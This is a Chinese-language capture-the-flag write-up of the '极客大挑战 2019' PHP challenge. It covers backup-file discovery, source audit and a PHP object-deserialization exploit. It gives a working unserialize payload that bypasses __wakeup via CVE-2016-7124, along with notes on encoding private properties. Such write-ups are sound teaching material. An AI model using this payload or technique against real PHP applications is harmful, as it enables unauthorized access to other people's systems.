






# [极客大挑战 2019] PHP

这道题点进去后，它说有做备份的习惯。查看源代码没啥东西后，使用 dirsearch 开始扫：



发现了 `www.zip`，下载下来后发现了几个源代码，一个一个查看。

## 先看 flag.php

里面的 flag 是假的。

## 再看 index.php

审计发现了参数是 `select`：



```php
include 'class.php';
$select = $_GET['select'];
$res = unserialize(@$select);
```

## 最后看 class.php



得知需要让 `username = admin`，`password = 100`；再反序列化。



```php
function __destruct() {
    if ($this->password != 100) {
        echo "</br>NO!!!hacker!!!</br>";
        echo "You name is: ";
        echo $this->username; echo "</br>";
        echo "You password is: ";
        echo $this->password; echo "</br>";
        die();
    }
    if ($this->username === 'admin') {
        global $flag;
        echo $flag;
    } else {
        echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
        die();
    }
}
```

## 绕过 `__wakeup`

先进行序列化：



```php
$a = new Name('admin', 100);
echo serialize($a);
```

但是要注意这里的 `__wakeup()`，它会直接将 `username` 修改为 `guest`：

```php
function __wakeup() {
    $this->username = 'guest';
}
```

所以这里必须绕过。利用的办法是：**当序列化串声明的属性个数大于实际属性个数时，会直接跳过 `__wakeup()`**。

所以这里把属性数由 `2` 改为 `3`。

!!! note "这个技巧有版本限制"

    这是 **CVE-2016-7124**，影响 PHP < 5.6.25 / 7.0.10。
    
    在 PHP 7.4 上实测：`O:4:"Name":3:{...}` 会**直接解析失败**（不是跳过 `__wakeup`，是整个包解析不了）。

## 关于 `%00`

另外，直接将这个复制到 URL 上时，`private` 属性名两侧的 `%00` 会被吞掉，所以先进行 URL 编码再放上去，或者放上去之后再自己手补 `%00`。

## 最终 payload

```text
/?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

!!! warning "`O:4:"Name":3:` 后面那个冒号不能丢"

    ✅ `O:4:"Name":3:{...}`
    
    ❌ `O:4:"Name":3{...}` ← 少一个冒号，`unserialize` 直接返回 false

成功得到 flag：



## 补充：private 和 public 的序列化区别

**`private` 属性下，构造的序列化串是「类名 + 属性名」的形式（别忘了 `%00`）：**

```text
s:14:"\0Name\0username"      ← \0 + Name + \0 + username = 1+4+1+8 = 14
```

**而 `public` 方式只是属性名的形式：**

```text
s:8:"username"
```

**`protected` 则是 `\0*\0属性名`。**

**长度一律按真实字节数算，`\0` 算 1 个字节 —— 这也是手写 payload 最容易错的地方。**
